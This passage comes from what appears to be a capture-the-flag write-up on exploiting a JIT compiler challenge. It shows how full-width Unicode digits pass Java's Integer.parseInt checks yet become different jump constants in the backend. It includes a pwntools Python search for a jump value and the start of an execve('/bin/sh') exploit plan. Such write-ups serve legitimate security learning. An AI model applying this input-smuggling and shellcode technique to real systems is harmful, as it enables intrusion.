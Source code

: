 This had us stumped for a while. My teammate, @2019, realised that `Integer.parseInt` accepts unicode full-width digits, allowing us to specify strings that produce very different jump constants in the java front-end and the JIT compiler backend. For example, the unicode character `U+FF10` is parsed by `Integer.parseInt` as a 0, and parsed by `intbracket` as 20596.

The unicode to binary conversions go like this:

| Digit | Unicode character | Binary representation |
|-------|-------------------|-----------------------|
| 0     | U+FF10            | "\xef\xbc\x90"        |
| 1     | U+FF11            | "\xef\xbc\x91"        |
| 2     | U+FF12            | "\xef\xbc\x92"        |
| 3     | U+FF13            | "\xef\xbc\x93"        |
| ...   |                   |                       |

We need to find a unicode full-width digit string that bypasses the java checks and results in an `\xeb\x01` jump instruction. Once again, we can write some python to find it for us:
```python
def find_unicode_jump_value(instruction_number):
    prefix = ""

    for j in range(10):
        for i in range(100):
            int_string = prefix + str(i)
            converted_value = (intbracket(int_string) - instruction_number) * 5 - 5
            single_byte_value = converted_value & 0xff

            if single_byte_value == 0x01:
                pwn.log.info("{} -> {} -> {}".format(int_string, hex(converted_value), hex(single_byte_value)))
                return int_string

        prefix += "\xef\xbc\x90" # Full-width zero
    else:
        pwn.log.error("Jump instruction not found :(")
```

The result is 2 full-width zeroes followed by an ASCII 6:
```
[*] ００6 -> 0x3d713701 -> 0x1
JMP(００6)
```

## Writing the exploit
Now we have all the pieces we need to build a full exploit. As the debuggers going to be super useful, we'll once again forget about the java frontend and develop the exploit purely in the debugging environment. The plan is to perform an `execve("/bin/sh", NULL, NULL)` syscall. We'll also break the work into several stages to make the writeup easier to digest.

### Storing /bin/sh in memory
Firstly, we'll need a `/bin/sh` string at a known location in memory. We can construct our own using the *STR* instruction, which lets us store the value of `eax` (4 bytes) in the writable data segment. The address of the writable data segment is stored in `r12`.
